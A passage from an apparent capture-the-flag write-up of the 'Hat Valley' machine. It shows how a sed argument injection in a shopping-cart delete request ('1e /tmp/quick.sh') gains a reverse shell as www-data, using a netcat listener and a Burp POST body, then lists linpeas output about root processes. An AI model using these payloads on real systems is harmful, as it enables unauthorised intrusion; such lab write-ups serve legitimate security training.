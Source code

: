 - Start a reverse shell on `Host`
```bash
nc -lvnp 444
```

- Now add an item to the cart.
- Go to:
	- `/var/www/store/cart`
	- Take note of the `endpoint`.
		- `563c-f335-546-9e1f`
	- As `bean` create the same file as above.
		- `nano /var/www/store/cart/563c-f335-546-9e1f`
```bash
***Hat Valley Cart***
item_id=1' -e "1e /tmp/quick.sh" /tmp/quick.sh '&item_name=Yellow Beanie&item_brand=Good Doggo&item_price=$39.90
```
- `1e` - is used in the `sed` command as a command option that tells it to execute a command upon finding a match on the first line of the file.
- Find more details in regards to `sed` here:
	- [[https://gtfobins.github.io/gtfobins/sed/]]
- On the website go to `cart` and delete the item.
- Find the `POST` request in `BurpSuite` and send to repeater.
- The body of your request should look similar to this:
```bash
item=1'+-e+"1e+/tmp/quick.sh"+/tmp/quick.sh+'&user=563c-f335-546-9e1f&action=delete_item
```

Hit send.

![image](https://0xc0rvu5.github.io/docs/assets/images/20230122010344.png)

- We are in for user 2 as `www-data` !
- Let's fix our shell by adding `clear` functionality
```bash
export TERM=xterm
```

- You can spin up another `linpeas.sh` to determine if there is any significant difference. You won't find much.
- The last relevant `linpeas.sh` finding can be found when ran by either user.

```bash
══════════════════════════╣ Processes, Crons, Timers, Services and Sockets ╠══════════════════════════
                          ╚════════════════════════════════════════════════╝
╔══════════╣ Cleaned processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-unix/privilege-escalation#processes

root         997  0.0  0.0  18624  3500 ?        Ss   Jan20   0:00 /bin/bash /root/scripts/notify.sh
root        1017  0.0  0.0   2988  1252 ?        S    Jan20   0:00  _ inotifywait --quiet --monitor --event modify /var/www/private/leave_requests.csv
```
